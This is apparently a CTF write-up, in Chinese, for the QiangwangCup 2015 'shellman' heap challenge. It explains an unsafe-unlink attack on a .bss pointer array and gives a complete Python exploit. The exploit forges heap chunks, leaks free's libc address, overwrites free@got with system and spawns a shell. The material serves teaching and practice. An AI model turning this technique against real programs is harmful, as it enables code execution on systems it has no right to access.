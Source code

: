 ```yaml
---
title: QiangwangCup-2015-shellman
date: 2016-10-15
tags: [2016,CTFs,unsafe_unlink]
categories: heap
---
```


## 0x00 Conclusion
- 64位在.bss段上有一个全局数组，该数组保存了每一个经过malloc分配的堆块返回的是否正在使用的标志（1为正在使用）、存储长度、和指向堆数据区的指针(x86下只有指向堆数据区的指针)
![](http://p1.bpimg.com/567571/c51e910ed5029914.png)
- 利用该指针进行任意地址的读和写，这题就是先泄露free函数的真实地址，然后将计算好的system地址，写入free@got中
- 存储指针的全局数组的结构如图所示

```
 p           0   1   2
 |           |   |   |
 +---+---+---+---+---+---+
 |   |   |   | p |   |   | ...
 +---+---+---+---+---+---+
```

## 0x01 Exp##
```python
#!/usr/bin/env python
from zio import *
c_read = COLORED(RAW, 'green')
c_write = COLORED(RAW, 'red')
target = './shellman.b400c663a0ca53f1f6c6fcbf60defa8d'
io = zio(target, print_read = c_read, print_write = c_write, timeout = 100000)

got_free = 0x601600
list_chunk = 0x06016D0
fake_fd = list_chunk - 0x8*3
fake_bk = list_chunk - 0x8*2

def List():
	io.read_until('>')
	io.writeline('1')
	io.read_until('SHELLC0DE 0: ')

def New(shellcode):
	io.read_until('>')
	io.writeline('2')
	io.read_until('Length of new shellcode:')
	io.writeline(str(len(shellcode)))
	io.read_until('Enter your shellcode(in raw format):')
	io.writeline(shellcode)

def Edit(number,shellcode):
	io.read_until('>')
	io.writeline('3')
	io.read_until('Shellcode number:')
	io.writeline(str(number))
	io.read_until('Length of shellcode:')
	io.writeline(str(len(shellcode)))
	io.read_until('Enter your shellcode:')
	io.writeline(shellcode)

def Delete(number):
	io.read_until('>')
	io.writeline('4')
	io.read_until('Shellcode number:')
	io.writeline(str(number))

New('a'*0x80)
New('b'*0x80)


#fake_chunk0
payload = ''
payload += l64(0) + l64(0x81) + l64(fake_fd) + l64(fake_bk)
payload += 'A' * (0x80 - 0x8 * 4)

#fake_chunk1
payload += l64(0x80)+l64(0x90)
Edit(0,payload)

#get bss_pointer
Delete(1)
raw_input('leak')
payload2 = ''
payload2 += 'A' * 0x8 + l64(0x1) + l64(0x8) + l64(got_free)
Edit(0,payload2)
List()

addr_free = l64(io.read(16).decode('hex'))
print 'addr_free = '+hex(addr_free)
offset_free = 0x82d00
offset_system = 0x46590
base_libc = addr_free - offset_free
addr_system = base_libc + offset_system
print 'addr_system = ' + hex(addr_system)

raw_input('tamper')
Edit(0,l64(addr_system))
New('/bin/sh\x00')
Delete(1)

io.interact()
```

## 0x02 Reference

- [http://fanrong1992.github.io/2016/05/07/Heap-Overflow-Using-Unlink-Double-Free/](http://fanrong1992.github.io/2016/05/07/Heap-Overflow-Using-Unlink-Double-Free/)
- [http://wooyun.tangscan.cn/static/drops/tips-7326.html](http://wooyun.tangscan.cn/static/drops/tips-7326.html)
